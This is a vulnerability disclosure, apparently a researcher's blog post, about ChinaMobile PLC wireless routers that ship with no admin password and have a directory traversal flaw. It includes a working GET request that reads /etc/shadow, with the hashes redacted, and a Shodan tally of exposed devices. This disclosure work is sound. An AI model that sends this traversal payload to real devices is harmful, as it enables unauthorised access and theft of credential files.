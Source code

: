 <h1>Insecure permissions and multiple vulnerabilities in ChinaMobile PLC wireless routers leaves more than 4,300 devices vulnerable to remote attacks Blank passwords and default factory settings</h1>

ChinaMobile PLC Wireless Router model GPN2.4P21-C-CN running the firmware version W2000EN-01(hardware platform Gpn2.4P21-C_WIFI-V0.05) is shipped and deployed without an administrative password on port 8080 and the web configuration interface is accessible using the following syntax: http://<target ip>:8080. From the configuration page an attacker can change the router configuration or he can try to obtain access to the internal network.

<h2>Directory traversal vulnerability</h2>
A different directory traversal vulnerability than the one identified by Rahul Raz (https://www.exploit-db.com/exploits/40304) was identified by using:

 <code>GET /cgi-bin/webproc?getpage=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fshadow&errorpage=html/main.html&var:language=zh_cn&var:menu=setup&var:page=connected&var:retag=1&var:subpage=-</code>
to retrieve the ```etc/shadow``` file where two user accounts were identified with the corresponding hashed passwords:

<code>root:<hash_deleted>:13796:0:99999:7:::</code>
<code>#tw:<hash_deleted>:13796:0:99999:7:::</code>

<h2>Attack surface</h2>
Over 4,320 vulnerable PLC Wireless routers were identified using Shodan. Most of the devices are located in South America (Argentina, Brazil, Honduras, Colombia) followed by Asia (Indonesia, India, Thailand).

<h2>Remediation</h2>
Adding a password to the admin user accounts should reduce the risk of exploitation. The risk of a successful directory traversal still exist and given the fact that the user can’t change the tw account password other risk mitigation strategies should be employed.

 
<h3>Author</h3>
Sergiu Sechel (https://sergiusechel.medium.com/insecure-permissions-and-multiple-vulnerabilities-in-chinamobile-plc-wireless-routers-leaves-more-d3eb9ff70d24)
